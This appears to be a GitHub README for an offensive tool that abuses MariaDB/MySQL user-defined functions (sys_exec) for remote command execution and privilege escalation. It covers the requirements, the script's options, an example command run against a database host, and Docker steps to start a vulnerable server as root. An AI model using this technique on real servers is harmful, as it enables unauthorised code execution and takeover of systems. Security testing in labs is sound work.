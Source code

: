 # MariaDB-UDF-remote-sys-exec
MariaDB / MySQL Remote User-Defind function (sys_exec) for remote code execution and privilege escalation

Requirements:
- File write access to the plugins folder
- create a udf function in mysql

The script does the follwing
- Uploads the so plugin
- Creates a udf function
- runs the provided command, keep in mind you will ony get a return code (0 means ok) and no output

Based on this lpe exploit: https://www.exploit-db.com/exploits/50236




```bash
usage: create_udf.py [-h] --user USER [--password PASSWORD] --host HOST [--port PORT] [--cmd CMD]

options:
  -h, --help            show this help message and exit
  --user USER, -u USER  MySQL username
  --password PASSWORD, -p PASSWORD
                        MySQL password
  --host HOST, -H HOST  MySQL Server
  --port PORT, -P PORT  MySQL Port
  --cmd CMD, -c CMD     Command

```

>keep in mind to escape `'` in your command to avoid sql injections


```bash
python3 create_udf.py --host 192.168.1.1 --user root --password mypass --port 3308 --cmd "bash -c \'ping -c 5 192.168.1.2\'"
```


## Start a vulnerable Docker Container

to test if a specific mysql or mariadb is vulnerable you can spawn a docker container, example for maraidb_10.3.20:


```bash
docker run --name=cve --rm -v $(pwd)/mysql/:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=mypass -p 3308:3306 mariadb:10.3.20
docker stop cve
docker run --name=cve --rm -v $(pwd)/mysql/:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=mypass -p 3308:3306 --entrypoint mysqld mariadb:10.3.20 --user=root
```

we need to do this in two steps to get it running as root [Why](https://stackoverflow.com/questions/44592222/how-do-i-run-mysqld-as-root-in-the-official-mysql-docker-image)